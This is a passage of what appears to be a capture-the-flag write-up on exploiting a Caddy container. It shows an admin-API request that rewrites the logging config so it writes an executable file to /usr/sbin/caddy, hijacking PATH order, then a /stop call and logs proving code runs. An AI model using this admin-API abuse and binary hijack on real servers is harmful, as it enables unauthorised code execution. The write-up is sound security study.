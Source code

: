Now we have a very strong primitive: arbitrary file write with arbitrary permissions. What do we want to rewrite? The container doesn't have cron jobs or other processes. The obvious way is LD_PRELOAD, but we potentially can write only printable characters. As we can see in the Docker file, 2 files are used in an infinite loop: sh and caddy. Let's try to rewrite them:
For sh, we go error: `open /bin/sh: text file busy`, because the file is used constantly. And for caddy error is `open /usr/bin/caddy: permission denied`, because the user with ID 1001 is the owner of this binary (not root).
At this time I had to sleep and generate new ideas. So we have file write; what is a way to hijack the execution of command? The key idea is that Docker commands contain relative paths of binaries, not absolute! We can check the `$PATH` variable to find out the search order of binary files:
`/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`. The path `/usr/sbin/` exists in the container and is used before `/usr/bin`. If we write to `/usr/sbin/caddy`, then this file will be used instead of the original binary. Let's create a log file with our logs:

```http
POST /127.0.0.1:2019/load HTTP/1.1
Host: [container]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json
Content-Length: 1658
{ "logging": {
    "logs": {
      "default": {
        "writer": {
          "output": "file",
          "filename": "/usr/sbin/caddy",
          "mode": "0777"
        },"level": "error",
        "encoder": {
...
```

The next problem is that the server has to be stopped. How can we stop the current server? The basic idea of a crash is good, but there is an easy way. We have access to the admin API, which can be used to just stop the current server. So we just send a request to this API [/stop](https://caddyserver.com/docs/api#post-stop) and the server will be restarted. After restart, we can see errors of running our file with sh:
```
echo: not found/sbin/caddy: line 2:
caddy-1  | /usr/sbin/caddy: line 1: 2025/05/25: not found
echo: not found/sbin/caddy: line 2:
caddy-1  | /usr/sbin/caddy: line 1: 2025/05/25: not found
echo: not found/sbin/caddy: line 2:
caddy-1  | /usr/sbin/caddy: line 1: 2025/05/25: not found
echo: not found/sbin/caddy: line 2:
caddy-1  | /usr/sbin/caddy: line 1: 2025/05/25: not found
echo: not found/sbin/caddy: line 2:
caddy-1  | /usr/sbin/caddy: line 1: 2025/05/25: not found
```
